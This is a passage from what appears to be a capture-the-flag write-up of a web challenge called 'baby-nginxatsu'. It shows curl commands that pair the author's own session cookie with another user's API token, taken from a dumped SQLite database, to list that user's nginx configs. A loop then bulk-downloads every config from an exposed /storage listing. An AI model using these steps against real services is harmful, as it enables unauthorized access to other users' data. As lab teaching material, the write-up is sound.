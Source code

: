 So with this SQLite table, I can map which nginx configs a user generated, and has access to using `/config/X`.

Try to list the configs again, using the laraval_session for the user that I created but the API token from the sqlite dump for user `jr`.

```bash
juancho💀hackbox:baby-nginxatsu$ curl --cookie "laravel_session=eyJpdiI6IlNDZUxrVEJ2blc0ZDExTGpFUUNzYUE9PSIsInZhbHVlIjoiZUw4WmZ1RFQyYjhYbTFyRFRWNHlJRlRyMk5jM3gzNytJRkY1VXVCUm9weHVsVGRzUGEveGdNTlVmVkxYdGJzK2dHSC8vQ3hoYmdZbitSdjg4ZzFNNmRocExMZWlUeEgzcDdCdVRMNG5VQTQrVWltbzQzbEpIbzRhSnVVcnUyNTMiLCJtYWMiOiJhN2FhNzI3YmI0YzdhMGY2OTNhYmZhYzYxYWU3OWYzNGMyOGE4NTQ1NWY5MDZmMDcyZmI3NTVhN2U1NmI1OGM5In0%3D" http://157.245.35.161:32681/api/configs?api_token=eKKhcLmo8t79oNRiyAsSKHXIX4Y2ERUDN30eANwo36FYBthTcUWJQKYKejMMZoeA1NTt | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1295  100  1295    0     0   3327      0 --:--:-- --:--:-- --:--:--  3329
[   
  {
    "id": 1, 
    "user_id": "1",
    "file_name": "nginx_61cb4aaaf03ba",
    "created_at": "2021-12-28T17:34:34.000000Z",
    "updated_at": "2021-12-28T17:34:34.000000Z"
  },
...
  {
    "id": 42,
    "user_id": "1",
    "file_name": "nginx_61cb4aab214c3",
    "created_at": "2021-12-28T17:34:35.000000Z",
    "updated_at": "2021-12-28T17:34:35.000000Z"
  },
  {
    "id": 49,
    "user_id": "1",
    "file_name": "nginx_61cb4aab24853",
    "created_at": "2021-12-28T17:34:35.000000Z",
    "updated_at": "2021-12-28T17:34:35.000000Z"
  }
]
```

Worked, so as long as I am logged in as a valid user and the API token of another user, I can get the configs using `/config/X`.

Going back to `/storage` again, get all the Nginx configs and see if any of them contain anything interesting.

```bash
curl http://157.245.35.161:32681/storage/ > out
grep -o "nginx_.*.conf" out | sed 's/".*//g' > filenames.txt

mkdir nginx_download
while read line; do curl http://157.245.35.161:32681/storage/$line -o nginx_download/$line; done<filenames.txt

# inspect:
 1101 nginx_download/nginx_61cb4aab24853.conf
 1101 nginx_download/nginx_61cb4aab24fce.conf
  983 nginx_download/nginx_61cb5e763f9ec.conf
  983 nginx_download/nginx_61cb5f3fbe916.conf
57016 total
juancho💀hackbox:baby-nginxatsu$ 
juancho💀hackbox:baby-nginxatsu$ 
juancho💀hackbox:baby-nginxatsu$ wc -c nginx_download/*
```

